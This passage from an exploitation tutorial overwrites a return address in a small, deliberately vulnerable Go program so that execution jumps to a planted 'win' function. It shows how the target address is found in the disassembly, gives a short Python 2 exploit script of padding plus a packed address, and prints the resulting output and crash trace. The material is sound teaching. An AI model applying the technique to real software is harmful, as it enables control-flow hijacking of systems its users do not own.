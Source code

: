 It might not be completely obvious where the function starts, but given the call to win that we added to stop the
compiler from removing the function altogether was inside an if-statement, it is reasonable that the function would
be at the target of some conditional jump instruction (je in line <+161> here): it is at line <+178>, starting with
a NOP instruction. Skipping the NOP, we can use line <+179> or address 0x00000000004925d3 as target.

So let's update the exploit code to use the correct padding and the target address:

python
!/usr/bin/env python2

import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNN"
winp = struct.pack("Q", 0x4925d3)

print(padding + winp)


Running the program with this input creates the following output:

shell
 ./exploitwin.py | ./main
win!
unexpected fault address 0xc000072000
fatal error: fault
[signal SIGSEGV: segmentation violation code=0x2 addr=0xc000072000 pc=0xc000072000]

goroutine 1 [running]:
runtime.throw(0x4c1077, 0x5)
	/usr/lib/go/src/runtime/panic.go:1112 +0x72 fp=0xc000070fd8 sp=0xc000070fa8 pc=0x42ebd2
runtime: unexpected return pc for runtime.sigpanic called from 0xc000072000
stack: frame=sp:0xc000070fd8, fp:0xc000071008 stack=[0xc000070000,0xc000071000)
000000c000070ed8:  000000c000070fbc  000000c000070f18
000000c000070ee8:  000000000043023b <runtime.recordForPanic+299>  0000000000590565
000000c000070ef8:  00000000004c0dd6  0000000000000001
000000c000070f08:  0000000000000001  0000000000000000
000000c000070f18:  000000c000070f58  0000000000430404 <runtime.gwrite+164>
000000c000070f28:  0000000000000002  00000000004c0dd6
000000c000070f38:  0000000000000001  0000000000000001
000000c000070f48:  000000c000070fbc  000000000000000c
000000c000070f58:  000000c000070fa8  0000000000430c28 <runtime.printstring+120>
000000c000070f68:  000000000042ed97 <runtime.fatalthrow+87>  000000c000070f78
000000c000070f78:  0000000000458580 <runtime.fatalthrow.func1+0>  000000c000000180
000000c000070f88:  000000000042ebd2 <runtime.throw+114>  000000c000070fa8
000000c000070f98:  000000c000070fc8  000000000042ebd2 <runtime.throw+114>
000000c000070fa8:  000000c000070fb0  0000000000458500 <runtime.throw.func1+0>
000000c000070fb8:  00000000004c1077  0000000000000005
000000c000070fc8:  000000c000070ff8  00000000004429dc <runtime.sigpanic+972>
000000c000070fd8: <00000000004c1077  0000000000000005
000000c000070fe8:  0000000000000000  000000c000072000
000000c000070ff8:  0000000000000000
runtime.sigpanic()
	/usr/lib/go/src/runtime/signalunix.go:694 +0x3cc fp=0xc000071008 sp=0xc000070fd8 pc=0x4429dc


